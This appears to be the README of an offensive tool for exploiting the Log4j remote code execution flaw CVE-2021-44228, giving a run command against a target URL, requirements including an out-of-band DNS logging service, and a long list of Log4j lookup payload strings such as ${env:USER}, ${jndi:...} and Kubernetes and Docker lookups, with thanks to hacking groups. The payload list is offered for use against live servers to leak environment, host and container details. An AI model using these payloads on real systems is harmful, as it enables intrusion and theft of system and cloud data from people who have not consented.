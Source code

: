 # Log4j-RCE
Log4j RCE - (CVE-2021-44228)

### How To Run?
```sh
php log4j.php https://1337.com/
```

#### Requirements
- PHP CURL
- PAYLOAD
- DNS LOG (Collaborator Burpsuite or use dnslog.cn)

#### List Payload
![Test Image 1](https://raw.githubusercontent.com/momos1337/Log4j-RCE/master/payload.jpg)
```sh
${ctx:loginId}
${map:type}
${filename}
${date:MM-dd-yyyy}
${docker:containerId}
${docker:containerName}
${docker:imageName}
${env:USER}
${event:Marker}
${mdc:UserId}
${java:runtime}
${java:vm}
${java:os}
${jndi:logging/context-name}
${hostName}
${docker:containerId}
${k8s:accountName}
${k8s:clusterName}
${k8s:containerId}
${k8s:containerName}
${k8s:host}
${k8s:labels.app}
${k8s:labels.podTemplateHash}
${k8s:masterUrl}
${k8s:namespaceId}
${k8s:namespaceName}
${k8s:podId}
${k8s:podIp}
${k8s:podName}
${k8s:imageId}
${k8s:imageName}
${log4j:configLocation}
${log4j:configParentLocation}
${spring:spring.application.name}
${main:myString}
${main:0}
${main:1}
${main:2}
${main:3}
${main:4}
${main:bar}
${name}
${marker}
${marker:name}
${spring:profiles.active[0]
${sys:logPath}
${web:rootDir}```

#### Special Thanks
- Hidden Ghost Team
- IndoSec
- IndoXploit
